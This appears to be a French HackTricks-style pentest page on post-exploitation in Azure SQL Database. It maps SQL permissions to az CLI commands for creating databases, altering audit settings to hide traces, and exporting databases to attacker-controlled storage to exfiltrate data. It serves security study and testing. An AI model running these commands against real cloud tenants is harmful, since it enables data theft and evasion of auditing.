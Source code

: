 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

Pour plus d'informations sur SQL Database, consultez :

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### "Microsoft.Sql/servers/databases/read", "Microsoft.Sql/servers/read" && "Microsoft.Sql/servers/databases/write"

Avec ces autorisations, un attaquant peut créer et mettre à jour des bases de données dans l'environnement compromis. Cette activité de post-exploitation pourrait permettre à un attaquant d'ajouter des données malveillantes, de modifier les configurations de la base de données ou d'insérer des portes dérobées pour une persistance supplémentaire, perturbant potentiellement les opérations ou permettant des actions malveillantes supplémentaires.
```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```
### "Microsoft.Sql/servers/elasticPools/write" && "Microsoft.Sql/servers/elasticPools/read"

Avec ces autorisations, un attaquant peut créer et mettre à jour des elasticPools au sein de l'environnement compromis. Cette activité de post-exploitation pourrait permettre à un attaquant d'ajouter des données malveillantes, de modifier les configurations de la base de données ou d'insérer des portes dérobées pour une persistance supplémentaire, perturbant potentiellement les opérations ou permettant des actions malveillantes supplémentaires.
```bash
# Create Elastic Pool
az sql elastic-pool create \
--name <new-elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--edition <edition> \
--dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
--name <elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--dtu <new-dtu-value> \
--tags <key=value>
```
### "Microsoft.Sql/servers/auditingSettings/read" && "Microsoft.Sql/servers/auditingSettings/write"

Avec cette autorisation, vous pouvez modifier ou activer les paramètres d'audit sur un Azure SQL Server. Cela pourrait permettre à un attaquant ou à un utilisateur autorisé de manipuler les configurations d'audit, potentiellement pour dissimuler des traces ou rediriger les journaux d'audit vers un emplacement sous leur contrôle. Cela peut entraver la surveillance de la sécurité ou permettre de suivre les actions. REMARQUE : Pour activer l'audit pour un Azure SQL Server en utilisant Blob Storage, vous devez attacher un compte de stockage où les journaux d'audit peuvent être enregistrés.
```bash
az sql server audit-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--state Enabled \
--storage-account <storage_account_name> \
--retention-days 7
```
### "Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read", "Microsoft.Sql/servers/connectionPolicies/read" && "Microsoft.Sql/servers/connectionPolicies/write"

Avec cette autorisation, vous pouvez modifier les politiques de connexion d'un serveur SQL Azure. Cette capacité peut être exploitée pour activer ou changer les paramètres de connexion au niveau du serveur.
```bash
az sql server connection-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--connection-type <Proxy|Redirect|Default>
```
### "Microsoft.Sql/servers/databases/export/action"

Avec cette autorisation, vous pouvez exporter une base de données d'un Azure SQL Server vers un compte de stockage. Un attaquant ou un utilisateur autorisé disposant de cette autorisation peut exfiltrer des données sensibles de la base de données en l'exportant vers un emplacement qu'il contrôle, posant un risque de violation de données significatif. Il est important de connaître la clé de stockage pour pouvoir effectuer cela.
```bash
az sql db export \
--server <server_name> \
--resource-group <resource_group_name> \
--name <database_name> \
--storage-uri <storage_blob_uri> \
--storage-key-type SharedAccessKey \
--admin-user <admin_username> \
--admin-password <admin_password>

```
### "Microsoft.Sql/servers/databases/import/action"

Avec cette autorisation, vous pouvez importer une base de données dans un serveur Azure SQL. Un attaquant ou un utilisateur autorisé avec cette autorisation peut potentiellement télécharger des bases de données malveillantes ou manipulées. Cela peut conduire à un contrôle sur des données sensibles ou à l'insertion de scripts ou de déclencheurs nuisibles dans la base de données importée. De plus, vous pouvez l'importer sur votre propre serveur dans Azure. Remarque : Le serveur doit permettre aux services et ressources Azure d'accéder au serveur.
```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri "https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac"
```
{{#include ../../../banners/hacktricks-training.md}}
